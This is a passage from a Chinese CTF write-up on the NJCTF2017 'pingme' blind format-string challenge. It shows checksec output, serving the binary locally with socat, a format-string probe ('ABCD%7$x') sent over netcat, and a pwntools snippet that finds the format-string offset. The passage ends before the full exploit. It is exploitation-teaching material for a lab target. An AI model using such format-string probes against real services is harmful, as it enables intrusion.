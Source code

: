 # 6.1.2 pwn NJCTF2017 pingme

- [题目复现](#题目复现)
- [Blind fmt 原理及题目解析](#blind-fmt-原理及题目解析)
- [漏洞利用](#漏洞利用)
- [参考资料](#参考资料)

[下载文件](../src/writeup/6.1.2_pwn_njctf2017_pingme)

## 题目复现

在 6.1.1 中我们看到了 blind ROP，这一节中则将看到 blind fmt。它们的共同点是都没有二进制文件，只提供 ip 和端口。

checksec 如下：

```text
$ checksec -f pingme
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATHFORTIFY Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No        0               2       pingme
```

关闭 ASLR，然后把程序运行起来：

```text
$ socat tcp4-listen:10001,reuseaddr,fork exec:./pingme &
```

## Blind fmt 原理及题目解析

格式化字符串漏洞我们已经在 3.3.1 中详细讲过了，blind fmt 要求我们在没有二进制文件和 libc.so 的情况下进行漏洞利用，好在程序没有开启任何保护，利用很直接。

通常有两种方法可以解决这种问题，一种是利用信息泄露把程序从内存中 dump 下来，另一种是使用 pwntools 的 DynELF 模块（关于该模块的使用我们在章节 4.4 中有讲过）。

## 漏洞利用

### 确认漏洞

首先你当然不知道这是一个栈溢出还是格式化字符串，栈溢出的话输入一段长字符串，但程序是否崩溃，格式化字符串的话就输入格式字符，看输出。

```text
$ nc 127.0.0.1 10001
Ping me
ABCD%7$x
ABCD44434241
```

很明显是格式字符串，而且 ABCD 在第 7 个参数的位置，实际上当然不会这么巧，所以需要使用一个脚本去枚举。这里使用 pwntools 的 fmtstr 模块了：

```python
def exec_fmt(payload):
    p.sendline(payload)
    info = p.recv()
    return info
auto = FmtStr(exec_fmt)
offset = auto.offset
```
